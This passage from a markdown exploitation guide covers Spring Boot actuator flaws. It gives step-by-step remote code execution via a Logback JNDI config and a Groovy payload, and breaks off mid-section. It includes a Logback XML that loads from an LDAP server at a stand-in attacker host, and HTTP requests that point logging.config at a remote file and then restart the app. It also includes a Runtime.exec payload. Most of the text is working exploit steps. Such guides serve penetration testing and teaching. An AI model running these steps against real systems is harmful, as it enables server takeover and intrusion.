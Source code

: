 References:
- [Spring Boot Vulnerability Exploit Check List: eureka xstream deserialization RCE](https://github.com/LandGrey/SpringBootVulExploit#0x03eureka-xstream-deserialization-rce)

## logging.config

`logging.config` requires `/restart` is available.

### Logback JDNI RCE

`logging.config` can lead to RCE via Logback JNDI, check [Logback JNDI RCE](#logback-jndi-rce). 

How to exploit:

1. Host `logback` config XML file with the following context:

    ```xml
    <configuration>
        <insertFromJNDI env-entry-name="ldap://attacker-website.com:1389/TomcatBypass/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9y" as="appName" />
    </configuration>
    ```

2. Host a malicious LDAP service, check the [article](https://landgrey.me/blog/21/) how to prepare a payload and start the service
3. Set `logging.config` properties:

    ```http
    POST /actuator/env HTTP/1.1
    Content-Type: application/json

    {
        "name": "logging.config",
        "value": "http://attacker-website.com/logback.xml"
    }
    ```

4. Restart an application:

    ```http
    POST /actuator/restart HTTP/1.1
    Content-Type: application/json
    ```

Resource:
- [Spring Boot Vulnerability Exploit Check List: restart logging.config logback JNDI RCE](https://github.com/LandGrey/SpringBootVulExploit#0x09restart-loggingconfig-logback-jndi-rce)

### Groovy RCE

How to exploit:

1. Host the `payload.groovy` file with the following content:

    ```groovy
    Runtime.getRuntime().exec("open -a Calculator")
    ```
